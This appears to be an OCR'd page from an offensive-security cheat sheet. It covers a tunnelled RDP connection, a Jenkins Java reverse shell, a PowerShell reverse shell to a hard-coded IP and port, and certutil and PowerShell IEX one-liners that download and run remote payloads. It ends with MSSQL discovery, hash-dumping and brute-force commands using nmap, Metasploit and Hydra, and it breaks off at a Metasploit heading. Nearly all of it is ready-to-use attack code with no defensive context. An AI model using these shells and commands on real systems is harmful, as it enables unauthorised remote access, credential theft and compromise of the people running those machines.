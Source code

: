 # step 4
# forward localport to remote port with tunnel
[createTunnel] 7777:172.16.0.4:3389

# step 5
# connect to localhost with rdp
$ /usr/bin/rdesktop -g 1024x768 -P -z -x l -k en-us -r sound:off localhost:7777
Jenkins Reverse Shell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
Powershell Reverse Shell
change IP and Port / Limmited version

$sm=(New-Object Net.Sockets.TCPClient('192.168.1.11',9001)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
Donwload file to Victim machine
cmd /c certutil -urlcache -split -f http://127.0.0.1/shell.exe c:\Temp\shell.exe && C:\temp\shell.exe
powershell -v 2 -exec bypass IEX(New-Object Net.WebClient).downloadString("http://127.0.0.1/shell.ps1")
MSSQL attack
Service discovery
Nmap

nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
MetaSploit

msf > use auxiliary/scanner/mssql/mssql_ping
Enumeration Combine user passwords collected in other ways into a dictionary to enumerate MSSQL machines in the domain.

Nmap

nmap -n -sV -Pn -vv -p<PORT> --script=banner,ms-sql-empty-password,ms-sql-dac,ms-sql-dump-hashes,ms-sql-info,ms-sql-ntlm-info,vulners -oA <IP>_mssql.txt <IP>
nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb=user.txt,passdb=pass.txt 192.168.1.1
nmap -p 1433 --script ms-sql-brute --script-args userdb=user.txt,passdb=pass.txt 192.168.1.1
Hydra
hydra -L userlist_sqlbrute.txt -P quick_password_spray.txt -f -o output.ms-sql -u <IP> -s <PORT>
MetaSploit
